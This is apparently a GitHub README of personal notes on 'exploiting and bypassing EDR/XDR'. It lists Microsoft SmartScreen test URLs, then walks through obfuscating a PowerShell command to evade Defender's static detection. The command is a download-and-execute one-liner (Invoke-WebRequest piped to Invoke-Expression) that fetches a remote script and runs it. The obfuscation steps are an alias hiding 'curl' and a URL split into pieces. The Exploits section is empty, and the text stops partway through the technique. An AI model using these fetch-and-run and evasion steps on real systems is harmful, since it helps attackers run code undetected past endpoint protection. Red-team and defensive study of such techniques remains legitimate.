

# fkxdr-mindmaps for exploiting and bypassing EDR/XDR


This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  


## Table of Contents
Enumeration
* [Smart Screen](#Smart-Screen)  
Exploits
Bypasses
* [PowerShell Obfuscation](#PowerShell Obfuscation)

## Enumeration
### Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html  

## Exploits

## Bypasses
### PowerShell Obfuscation 
This PowerShell obfuscation technique seen in the wild can be used to bypass Microsoft Defender's detection mechanisms, particularly static analysis. The un-obfuscated command looks something like this:

```
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/fkxdr/fkmde/main/fkmde.ps1" -UseBasicParsing | Invoke-Expression
```

The command fetches `fkmde` directly from github and immediately executes it. To evade detection, it is possible to obfuscate this script using several techniques at once.

1. Alias Creation: Instead of directly calling `Invoke-WebRequest`, an alias is created
   `$isuwlosas = 'ur'; new-alias press c$($isuwlosas)l`
2. Dynamic String Construction: To make the URL harder to detect, the string is split into multiple pieces dynamically
    ```$urlPart1 = 'https://raw.githubuser'; 
    $urlPart2 = 'content.com/fkxdr/fkmde/main/fkmde.ps1';
    $fullUrl = $urlPart1 + $urlPart2
    ```
